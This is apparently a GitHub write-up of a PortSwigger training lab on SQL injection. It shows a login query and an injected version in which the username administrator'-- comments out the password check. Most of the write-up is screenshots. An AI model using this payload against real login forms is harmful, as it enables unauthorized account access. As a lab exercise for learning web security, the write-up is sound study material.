 ## Lab Description:

<img width="869" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b8f1043a-be59-4074-a819-399a51c14aca">

## Solution:

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/28d58156-9be9-4012-b140-ca4eac1b5fdf)

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/9887b448-276a-440d-9396-161518b0e37e)

*Query* 

```SELECT * FROM users WHERE username = 'administrator' AND password = 'password'```

To bypass the login, we need to comment out the password part in WHERE clause.

```SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'```

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/bdedabc4-a741-4fdf-84cf-f581ce7b14d8)
